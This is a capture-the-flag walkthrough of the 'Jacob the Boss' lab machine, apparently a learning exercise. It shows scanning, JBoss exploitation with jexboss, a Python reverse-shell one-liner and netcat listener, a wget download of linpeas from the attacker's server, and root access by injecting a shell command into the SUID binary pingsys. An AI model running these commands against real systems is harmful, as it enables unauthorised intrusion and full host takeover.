# Jacob the Boss

### ip = 10.10.87.186
#### /etc/hosts 10.10.87.186    jacobtheboss.box


### Info
```
As the task asks we have set our hosts file to have the ip pointing at jacobtheboss.box
```

### nmap 
```
nmap -sC -sV -Pn -T4 jacobtheboss.box -oA scans/initial
```
```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:ca:13:6e:d9:63:c0:5f:4a:23:a5:a5:a5:10:3c:7f (RSA)
|   256 a4:6e:d2:5d:0d:36:2e:73:2f:1d:52:9c:e5:8a:7b:04 (ECDSA)
|_  256 6f:54:a6:5e:ba:5b:ad:cc:87:ee:d3:a8:d5:e0:aa:2a (ED25519)
80/tcp   open  http        Apache httpd 2.4.6 ((CentOS) PHP/7.3.20)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.20
|_http-title: My first blog
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
1090/tcp open  java-rmi    Java RMI
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1098/tcp open  java-rmi    Java RMI
1099/tcp open  java-object Java Object Serialization
| fingerprint-strings: 
|   NULL: 
|     java.rmi.MarshalledObject|
|     hash[
|     locBytest
|     objBytesq
|     http://jacobtheboss.box:8083/q
|     org.jnp.server.NamingServer_Stub
|     java.rmi.server.RemoteStub
|     java.rmi.server.RemoteObject
|     xpw;
|     UnicastRef2
|_    jacobtheboss.box
3306/tcp open  mysql       MariaDB (unauthorized)
4444/tcp open  java-rmi    Java RMI
4445/tcp open  java-object Java Object Serialization
4446/tcp open  java-object Java Object Serialization
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE TRACE
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Welcome to JBoss&trade;
8083/tcp open  http        JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port1099-TCP:V=7.91%I=7%D=10/30%Time=5F9C7124%P=x86_64-pc-linux-gnu%r(N
SF:ULL,16F,"\xac\xed\0\x05sr\0\x19java\.rmi\.MarshalledObject\|\xbd\x1e\x9
SF:7\xedc\xfc>\x02\0\x03I\0\x04hash\[\0\x08locBytest\0\x02\[B\[\0\x08objBy
SF:tesq\0~\0\x01xpG\x1f\xec\xadur\0\x02\[B\xac\xf3\x17\xf8\x06\x08T\xe0\x0
SF:2\0\0xp\0\0\0\.\xac\xed\0\x05t\0\x1dhttp://jacobtheboss\.box:8083/q\0~\
SF:0\0q\0~\0\0uq\0~\0\x03\0\0\0\xc7\xac\xed\0\x05sr\0\x20org\.jnp\.server\
SF:.NamingServer_Stub\0\0\0\0\0\0\0\x02\x02\0\0xr\0\x1ajava\.rmi\.server\.
SF:RemoteStub\xe9\xfe\xdc\xc9\x8b\xe1e\x1a\x02\0\0xr\0\x1cjava\.rmi\.serve
SF:r\.RemoteObject\xd3a\xb4\x91\x0ca3\x1e\x03\0\0xpw;\0\x0bUnicastRef2\0\0
SF:\x10jacobtheboss\.box\0\0\x04J\0\0\0\0\0\0\0\0\xed\xffey\0\0\x01u{\x17\
SF:xef\x9b\x80\0\0x");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port4445-TCP:V=7.91%I=7%D=10/30%Time=5F9C712A%P=x86_64-pc-linux-gnu%r(N
SF:ULL,4,"\xac\xed\0\x05");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port4446-TCP:V=7.91%I=7%D=10/30%Time=5F9C712A%P=x86_64-pc-linux-gnu%r(N
SF:ULL,4,"\xac\xed\0\x05");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.03 seconds

```
```
from the nmap scan we see some interesting ports open, because we used -sV its found some version information as well for us. After investigating the open ports we find JBOSS running on 8080
```


### port 8080 jboss 
```
After working with JBOSS applications in the past I knew they had several known vulnerabilities, Lets take a look and see if we can find one here.

Remember Google is your friend!
```

```
First result is a github repo, lets investigate 

github.com/joaomatos/jexboss.git 
```


```
Lets clone this and see whats its about! 
```


```
We see from the above screenshot that we now have all the files, the readme.md tells us to install the requirements and then run using 
```
```
python jexboss.py -host <target-ip:port> 
```
### jexboss exploit
```
we run pip3 install -r requires.txt 

to install any prereq's and then 

python3 jexboss.py -host http://jacobtheboss.box:8080
```

```
We are prompted to accept the terms as such, which is to only use if we are allowed. Which in this case we are!
```
### shell on box 

```
Now we have a shell we need to look if we can leverge to get a better shell i.e. reverse shell 

I tried which python to see if python is installed on the box.
which python 
```

```
Indeed python is installed, lets head over to PayloadsAllTheThings on github to find a python reverse shell 
```

```
we find a perfect example 

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Make sure you change the ip and port to match your requirements

Lets start our listener

nc -lnvp 9999
```

```
we now paste the python reverse shell into the jexboss shell we have  
```

```
Over in our listener we see we get a reverse shell connection 
```

```
not a very stable shell so lets do something about it 

We know python is running so we drop a python spawn command in there  

python -c 'import pty;pty.spawn("/bin/bash")'
```

```

Much better 
```
### user.txt
```
Once on the server we can look for the user flag 
We move over the users home directories and find something there

/home/jacob/user.txt

[REDACTED]
```
```
Now the fun part Privledge Escalation
```
### privesc 
```
We need linpeas o the box so lets serve linpeas.sh on my attacking machine 

python -m SimpleHTTPServer 3333
```
```
Now wget http://10.9.0.218:3333/linpeas.sh -O /dev/shm

we move it to /dev/shm as this allows all users to write to the folder  
```

```
Linpeas gives us a hint in the SUID section

/usr/bin/pingsys

pingsys is the only SUID without color which raises some questions from me.
```
```
Some googling... I find a stackoverflow article 

https://security.stackexchange.com/questions/196577/privilege-escalation-c-functions-setuid0-with-system-not-working-in-linux

It tells me that pingsys using ';' will execute commands within different shells or thats how I take it!

Lets give it a try...
```
```
pingsys '127.0.0.1; /bin.sh'
```


```
running whoami shows me I'm now Root
```



### root.txt
```
cat /root/root.txt

[REDACTED]]

```
